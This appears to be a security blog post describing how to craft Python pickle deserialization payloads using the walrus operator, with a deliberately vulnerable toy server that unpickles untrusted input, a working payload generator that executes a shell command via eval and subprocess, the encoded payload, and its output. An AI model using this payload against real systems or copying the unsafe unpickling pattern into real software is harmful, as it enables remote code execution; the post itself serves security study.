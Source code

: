 ```yaml
---
layout: post
title: "Simpler unpickle payloads with the walrus operator"
date: 2022-01-07 01:00
type: post
published: true
comments: true
categories: software
---
```


When exploiting Python deserialization, specifically, Pickle, vulnerabilities you need to craft a payload consisting of a collecetion of arguments and a callable that is available on the server. Most commonly you can use the `eval` function and a string to be evaluated. This is fairly flexible and from here you can typically import the `os` module and call `os.system` to do whatever you want. Sometimes there can be some limitations in place, for example, you might not get the output of the directly and it might be blocking outbound connections preventing reverse shells. In some situations you need the result of the unpcikle operation to return an object with specific properties. If you are lucky and convenient classes exist on the target and you have knowledge of them you might get away with simply constructing one of them. If this is not the case it is slightly trickier.

A big issue is that `eval` only evaluates a single expression so you can't declare your own classes since that is a statement, not an expression. With the introduction of the new walrus operator in Python, this is now much easier since we can now perform assignments as an expression. The key idea is that we can create a tuple where each element in the tuple can access items which have been assigned in a previous element. For example, this is a valid Python expression which will evaluate to `2`.

{% highlight python %}
(a:=1, b:=a+a, b)[-1]
{% endhighlight %}

We can use the same pattern to construct completely arbitrary objects. As a toy example, let's say you have a server like this which takes some input and unpickles it:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Item(object):
    def __init__(self, text):
        self.text = text

    def process(self):
        return self.text.upper().encode()

while True:
    try:
        b64data = input('Pickled object: ')
        data = base64.b64decode(b64data)
        item = pickle.loads(data)
        res = item.process()
        print(f'Result: {res.decode()}')
    except KeyboardInterrupt:
        print('Exiting') 
        break
    except Exception as e:
        print(f'An error occurred while processing data: {e}')
{% endhighlight %}

Let's pretend that we do not get any stdout data from the unpickling and that not outbound connections are allowed so a reverse shell won't do. Note that the unpickled object needs to have a `.process()`method which returns something which we can call `.decode()` on which in turn should return a string. We can then use the following code to craft such a payload:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Payload(object):
    def __reduce__(self):
        return eval, ('(a:=type("A", (object,), {}),b:=a(),b.__setattr__("process", lambda: __import__("subprocess").check_output("id")),b)[-1]',)

payload = Payload()
payload = base64.b64encode(pickle.dumps(payload)).decode()
print(payload)
{% endhighlight %}

The key element here is the Python expression:

{% highlight python %}
(
    a:=type("A", (object,), {}),
    b:=a(),
    b.__setattr__("process",
        lambda: __import__("subprocess").check_output("id")
    ),
    b
)[-1]
{% endhighlight %}

The first element of the tuple creates a new type called `A` and assigns it to `a`. We then instantiate an object of this type in variable `b`. We then set the `.process` attribute of this object to be a function which will call the `id` command and return the output. Finally we put the object itself as the last element of the tuple and use the `[-1]`indexing operation to extract our crafted object. Running this code and providing it as input to our server results in the following:

```
Pickled object: gASVlAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx4KGE6PXR5cGUoIkEiLCAob2JqZWN0LCksIHt9KSxiOj1hKCksYi5fX3NldGF0dHJfXygicHJvY2VzcyIsIGxhbWJkYTogX19pbXBvcnRfXygic3VicHJvY2VzcyIpLmNoZWNrX291dHB1dCgiaWQiKSksYilbLTFdlIWUUpQu
Result: uid=1000(zetatwo) gid=1000(zetatwo) groups=1000(zetatwo)
```

I hope this little trick come in handy whenever you are dealing with Python unpickle vulnerabilities.

